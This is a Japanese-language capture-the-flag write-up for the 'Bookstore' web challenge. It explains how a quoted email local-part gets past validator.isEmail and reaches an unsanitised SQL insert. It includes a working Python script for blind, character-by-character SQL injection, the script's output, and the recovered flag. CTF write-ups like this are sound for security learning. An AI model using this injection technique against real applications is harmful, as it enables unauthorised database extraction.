


# Bookstore:Web:65pts
Maple Stories 2 is out! Get it for me pwease  

[http://bookstore.ctf.maplebacon.org/](http://bookstore.ctf.maplebacon.org/)  

[bookstore.zip](bookstore.zip)  

# Solution
URLとソースが渡される。  
アクセスするとユーザ登録ができ、本を購入できるサービスのようだ。  
0円なのでとりあえず全て買う。  
  
購入したものはDirectとKindleでダウンロードできる。  
  
不審な点は見られないので、ソースコードよりフラグの場所を探す。  
Dockerfileに以下の記述がみられる。  
```
~~~
COPY init.sql /init.sql
ENV FLAG="maple{test_flag}"
RUN sed -i "s/FLAGE/$FLAG/g" /init.sql
~~~
```
init.sqlは以下のようであった。  
```sql
~~~
INSERT INTO books(title, author, price, texts) VALUES('Maple Stories', 'Maple-Chan', 0, 'FLAGE');
INSERT INTO books(title, author, price, texts) VALUES('Beating Me: Three essentials for playing the honk market', 'Sir Bacon', 0, 'Dont, dont, dont');
INSERT INTO books(title, author, price, texts) VALUES('Tetrio Strategy Guide', 'Addicted folks @ Maple Bacon', 0, 'Press 4, mind your own business, ???, win game');
INSERT INTO books(title, author, price, texts) VALUES('Midnight Owos - Maple Land Bestiary', 'Syrup', 0, 'TBD');

CREATE USER 'player'@'%' IDENTIFIED WITH mysql_native_password BY 'Player123!';
GRANT INSERT ON requests TO 'player'@'%';
GRANT SELECT ON *.* TO 'player'@'%';
FLUSH PRIVILEGES;
```
booksの先頭のtextsに入っているようだ。  
SQLiを狙いユーザ入力が絡むクエリ発行個所(db.js)を見ると以下のようであった。  
```js
~~~
    register(username, password) {
        return new Promise((resolve, reject) => {
            this.adminDB.query(`INSERT INTO users(username, password) VALUES('${username}', '${password}')`, (err) => {
~~~
    getUser(username, password, callback) {
        const query = `
        SELECT * FROM users WHERE username = '${username}' AND password = '${password}';
        `;
~~~
    insertEmail(email, book_id) {
        const query = `INSERT INTO requests(email, book_id) VALUES('${email}', '${book_id}');`;
~~~
```
十分にSQLiが可能そうであるが、index.jsで各所に以下のような記述がみられる。  
```js
~~~
import { validateEmail, validateLogin } from './validator.js';
~~~
app.post('/login', (req, res) => {
    const username = req.body.username;
    const password = req.body.password;

    if (!validateLogin(username, password)) {
~~~
app.post('/register', (req, res) => {
    const username = req.body.username;
    const password = req.body.password;

    if (!validateLogin(username, password)) {
~~~
app.post('/download-ebook', (req, res) => {
~~~
    switch (option) {
        case 'direct':
            res.write('Direct downloads currently unavailable. Please wait until the established publish date!');
            break;
        case 'kindle':
            if (validateEmail(email)) {
~~~
```
validator.jsは以下のようであった。  
```js
import validator from 'validator'

export function validateEmail(email) {
    return validator.isEmail(email)
}

function validateUsername(username) {
    return validator.isAlphanumeric(username, 'en-US') && username.length > 3 && username.length < 30
}

function validatePassword(password) {
    return validator.isAlphanumeric(password, 'en-US') && password.length > 6 && password.length < 30
}

export function validateLogin(username, password) {
    return username && password && validateUsername(username) && validatePassword(password)
}
```
入力のvalidationが適切に行われている。  
一見するとSQLiが不可能そうに見えるが、`isEmail`の部分に自由度がありそうだ。  
メールアドレスでは、実は特殊記号が利用可能であることが[知られている](https://qiita.com/yoshitake_1201/items/40268332cd23f67c504c)。  
試しに`"'satoki"@satoki.satoki`を入力するとエラーが発生した。  
  
local-partに64文字以下でSQLiを引き起こす文字列を設定してやればよい。  
以下のmaple_sqli.pyで行う。  
文字数に注意しつつ、大文字小文字を正確に判定する(記号チェックは省いている)。  
```python
import sys
import string
import requests

flag = "maple{"
#flag = "maple{it_was_all_just_maple_leaf"
moji = string.ascii_lowercase + string.digits + "{}_"


##################################################
cookie = {"connect.sid": "s:EUYX-tMH___eog7tRY1D-hHrvZGTyOne.IspSYCRaRSpAAFUdtKx9NX/5+X+nmzDYTRc/Vhi6GzQ"} # Your cookie
##################################################


url = "http://bookstore.ctf.maplebacon.org/download-ebook"

while True:
    for i in moji:
        payload = {"option": "kindle", "email": f"\"',(SELECT 1 FROM books WHERE SUBSTR(texts,{len(flag) + 1},1)='{i}'AND id=1))#\"@a.sa", "bookID": "1"}
        assert(len(payload["email"]) - len("@a.sa") < 65)
        res = requests.post(url, data=payload, cookies=cookie)
        #print(i) # Debug
        #print(res.text) # Debug
        if "Email saved!" not in res.text:
            continue
        elif i == "}":
            flag += "}"
            print(flag)
            sys.exit()
        else:
            payload = {"option": "kindle", "email": f"\"',(SELECT 1 FROM books WHERE texts LIKE BINARY '%{flag[-7:] + i}%'))#\"@a.sa", "bookID": "1"}
            assert(len(payload["email"]) - len("@a.sa") < 65)
            res = requests.post(url, data=payload, cookies=cookie)
            if "Email saved!" not in res.text:
                i = i.upper()
            flag += i
            print(flag)
            break
```
cookieを自身のものへ変更し、実行する。  
```bash
$ python maple_sqli.py
maple{i
maple{it
maple{it_
maple{it_w
maple{it_wa
maple{it_was
maple{it_was_
maple{it_was_a
maple{it_was_al
maple{it_was_all
maple{it_was_all_
maple{it_was_all_j
maple{it_was_all_ju
maple{it_was_all_jus
maple{it_was_all_just
maple{it_was_all_just_
maple{it_was_all_just_m
maple{it_was_all_just_ma
maple{it_was_all_just_map
maple{it_was_all_just_mapl
maple{it_was_all_just_maple
maple{it_was_all_just_maple_
maple{it_was_all_just_maple_l
maple{it_was_all_just_maple_le
maple{it_was_all_just_maple_lea
maple{it_was_all_just_maple_leaf
maple{it_was_all_just_maple_leaf}
```
flagが得られた。  

## maple{it_was_all_just_maple_leaf}